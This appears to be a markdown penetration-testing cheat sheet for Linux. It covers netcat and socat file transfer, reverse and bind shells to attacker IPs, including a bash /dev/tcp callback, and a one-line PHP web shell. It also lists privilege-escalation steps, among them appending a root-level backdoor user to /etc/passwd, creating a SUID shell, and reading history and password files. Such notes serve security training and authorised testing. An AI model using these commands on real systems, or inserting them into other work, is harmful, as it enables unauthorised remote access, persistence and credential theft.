 # Linux 
- Important locations
  - /bin - have binaries (ls, pwd etc.)
  - /sbin - system programs (fdisk, sysctl, etc.)
  - /etc - config files
  - /tmp - temp files
  - /usr/bin - applications (nmap, etc.)
  - /usr/share - application support and data files

# File transfer
- `nc -nv 10.10.10.10 443 < nc.exe` `nc -nlvp 443 > nc.exe`
- socat `socat TCP4-LISTEN:443,fork file:passwords.txt` `socat TCP4:10.10.10.10:443 file:received.txt,create`

# Linux Shells
Run once we get shell `python -c "import pty;pty.spawn('/bin/bash')";export TERM=xterm;stty raw -echo`

- netcat(nc)
  - Reverse shell `nc -nv 10.10.10.10 443 -e /bin/bash` 
  - Bind shell `nc -nvlp 443 -e /bin/bash`
- socat
  - Reverse shell `socat TCP4:10.10.10.10:443 EXEC:/bin/bash`
  - Listener `socat -d -d TCP4-LISTEN:443 STDOUT`
  - Bind shell `socat TCP-LISTEN:443 EXEC:/bin/bash`
  - Connect `socat - TCP4:10.10.10.10:443`
  - Encrypted shell
    - Generate cert `openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt;cat bind_shell.key bind_shell.crt > bind_shell.pem`
    - Bind shell `socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
    - Connect `socat - OPENSSL:10.10.10.10:443,verify=0`

- PHP reverse shell
  -  Shell `<?php echo shell_exec($_REQUEST["cmd"])?>`
  -  Run `curl -X POST hxxp://10.10.10.143/pwned.php --data-urlencode 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.4/1234 0>&1"'`

# Linux privilege escalation
- [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) for enumeration
- [GTFObins](https://gtfobins.github.io/)
- Kernal exploits [linux-exploit-suggester-2.pl](https://github.com/jondonas/linux-exploit-suggester-2)

- id; uname -a; whoami
- hostname
- `cat /etc/issue` `cat /etc/*-releas` `uname -r` `arch` 
- `cat /etc/passwd`
- `cat ~/.*history`
- `sudo -l`
- Environment variables
  - echo $PATH, $PWD, $HOME
  - `env` `printenv`
- PrivEsc with PATH `export PATH=/tmp:$PATH`
- Running process `ps aux` `ps -ef | grep root` `ps -fC apache2`
- list services `service --status-all`
- Bash history `history` `cat /home/USER/.bash_history`
- Startup enabled services `systemctl --all list-unit-files | grep enabled` `ls -l /etc/init.d/*`
- Networking info `/sbin/route` `ip a`
- Connections `ss -anp`
- Linux firewall `/etc/iptables`
- Cron jobs `ls -lah /etc/cron*` `cat /etc/crontab` `grep "CRON" /var/log/cron.log`
- Installed apps `dpkg -l`
- Writable `find / -writable -type d 2>/dev/null`
- Unmounted devices and listing other drives `cat /etc/fstab` `/bin/lsblk` `mount`
- Load drivers `lsmod` `/sbin/modinfo libata`
- SUID files `find / -perm -u=s -type f 2>/dev/null`
- Writable /etc/passwd `echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd` `su root2` password is `evil`
- Stickybit `cp /bin/sh /tmp/sh;chmod 4755 /tmp/sh;` # now `/tmp/sh -i`
- SSH login with key `chmod 600 root_key;ssh -i root_key root@IP`
